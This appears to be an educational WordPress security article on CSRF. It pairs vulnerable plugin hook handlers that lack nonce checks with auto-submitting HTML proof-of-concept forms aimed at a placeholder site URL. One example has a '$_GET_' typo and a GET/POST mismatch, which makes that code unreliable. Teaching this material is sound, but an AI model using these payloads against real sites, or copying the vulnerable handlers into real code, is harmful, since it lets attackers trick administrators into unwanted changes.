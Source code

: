 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
head:
    - tag: title
      content: Learn about Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```



## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against CSRF"
  href="/academy/wordpress/securing-code/cross-site-request-forgery/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="update_post_data" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```